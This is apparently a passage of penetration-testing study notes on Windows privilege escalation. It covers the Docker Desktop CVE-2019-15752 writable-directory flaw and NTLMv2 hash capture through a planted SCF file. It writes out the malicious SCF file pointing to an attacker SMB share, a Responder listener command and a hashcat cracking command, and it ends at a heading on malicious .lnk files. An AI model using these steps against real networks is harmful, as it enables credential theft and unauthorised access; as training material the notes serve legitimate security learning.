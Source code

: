 ```
        We may also encounter situations where we land on a host running a vulnerable application that can be used to elevate privileges through user interaction. CVE-2019–15752 is a great example of this. This was a vulnerability in Docker Desktop Community Edition before 2.1.0.1. When this particular version of Docker starts, it looks for several different files, including docker-credential-wincred.exe, docker-credential-wincred.bat, etc., not exist with a Docker installation. The program looks for these files in the C:\PROGRAMDATA\DockerDesktop\version-bin\. This directory was misconfigured to allow full write access to the BUILTIN\Users group, meaning that any authenticated user on the system could write a file into it (such as a malicious executable).

        Any executable placed in that directory would run when a) the Docker application starts and b) when a user authenticates using the command docker login. While a bit older, it is not outside the realm of possibility to encounter a developer's workstation running this version of Docker Desktop, hence why it is always important to thoroughly enumerate installed software. 


        --SCF on a File Share

        A Shell Command File (SCF) is used by Windows Explorer to move up and down directories, show the Desktop, etc. An SCF file can be manipulated to have the icon file location point to a specific UNC path and have Windows Explorer start an SMB session when the folder where the .scf file resides is accessed. If we change the IconFile to an SMB server that we control and run a tool such as Responder, Inveigh, or InveighZero, we can often capture NTLMv2 password hashes for any users who browse the share. This can be particularly useful if we gain write access to a file share that looks to be heavily used or even a directory on a user's workstation. We may be able to capture a user's password hash and use the cleartext password to escalate privileges on the target host, within the domain, or further our access/gain access to other resources.

        -Malicious SCF File

        In this example, let's create the following file and name it something like @Inventory.scf (similar to another file in the directory, so it does not appear out of place). We put an @ at the start of the file name to appear at the top of the directory to ensure it is seen and executed by Windows Explorer as soon as the user accesses the share. Here we put in our tun0 IP address and any fake share name and .ico file name.

        [Shell]
        Command=2
        IconFile=\\10.10.14.3\share\legit.ico
        [Taskbar]
        Command=ToggleDesktop

        -Starting Responder

        $ sudo responder -wrf -v -I tun0

        -Cracking NTLMv2 Hash with Hashcat

        $ hashcat -m 5600 hash /usr/share/wordlists/rockyou.txt


        -Capturing Hashes with a Malicious .lnk File

        This attack no longer works on Server 2019 hosts, but we can achieve the same effect using a malicious .lnk file. We can use various tools to generate a malicious .lnk file, such as Lnkbomb, as it is not as straightforward as creating a malicious .scf file. We can also make one using a few lines of PowerShell:

        ( https://github.com/dievus/lnkbomb  )


        
        -Generating a Malicious .lnk File

```